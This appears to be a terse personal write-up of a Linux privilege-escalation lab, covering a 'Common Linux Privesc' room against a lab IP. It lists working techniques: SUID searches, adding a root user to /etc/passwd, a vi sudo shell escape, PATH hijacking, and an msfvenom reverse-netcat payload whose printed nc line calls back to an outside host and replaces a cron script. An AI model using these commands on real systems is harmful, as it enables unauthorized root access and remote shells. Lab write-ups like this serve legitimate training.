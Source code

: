 # Common Linux Privesc

#Date: 15.09.2020

IP:`10.10.242.125`

# Enumeration

## linEnum - linpeas.sh way better

- how to get it? 
Option 1: start HTTP server on localmachine fe. `python -m SimpleHTTPServer 8000` and wget it on target machine

Option 2: pase it into fe. nano or vi

then `chmod +x LinEnum.sh`

run linenum.sh and got --> linenum.log


-------
### ./shell
ssh to target machine using provided credentials
user3:password

find in crontab (`cat /etc/crontab`) script running every 5 min (`autoscript.sh`)

## find SUID/GUID files 
`find / -perm -u=s -type f 2>/dev/null`

find ./shell in user3 homedir and got root privilage

-------
### /etc/passwd escelation
login with user7:password

generate new pass hash by `openssl passwd -1 -salt new 123` and got hash `$1$[new]$QVSf2wqMC/UUOoXEaxKxR0` for user new with pass 123


add to /etc/passwd "new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash" to make SuperUser new with pass 123

---------
### VI escalation
user8:password

sudo -l

run vi sudo vi 

open shell :!sh

---------
### cron

on local machinecreate payload: msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
got: `mkfifo /tmp/fpzr; nc 10.8.106.217 8888 0</tmp/fpzr | /bin/sh >/tmp/fpzr 2>&1; rm /tmp/fpzr`

replace autoscript.sh with payload

on local machine nc -lvp 8888

-----
### PATH

user5:password
cd ~ 
./script

echo "/bin/bash" > ls

chmod +x ls

export PATH=/tmp:$PATH


